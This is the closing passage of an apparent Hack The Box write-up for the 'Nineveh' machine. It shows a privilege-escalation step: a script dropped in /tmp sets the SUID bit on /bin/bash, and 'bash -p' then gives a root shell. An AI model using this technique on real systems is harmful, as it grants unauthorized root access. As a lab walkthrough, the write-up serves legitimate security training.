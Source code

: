 > **Victime Machine**:

```bash
cd /tmp
nano update
cat update
```

> **update**:

```bash
#!/bin/bash

chmod u+s /bin/bash
```

> **Victime Machine**:

```bash
ls -l /bin/bash

chmod +x update
watch -n 1 ls -l /bin/bash
# :)

bash -p
# :)
```

<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_70.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_71.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_72.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_73.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_74.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> I really had to invest a lot of time in this machine, plus all my concentration on every step I made and every time I got stuck. I had to seek help from the community to understand how to engage the box, as I had to link various types of vulnerability exploits. It was a nice experience and I felt very satisfied with the knowledge gained, so since I am motivated I will go for the next lab work but I must not forget to kill the box **Nineveh** in the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** plataform.

<br /><br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_75.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
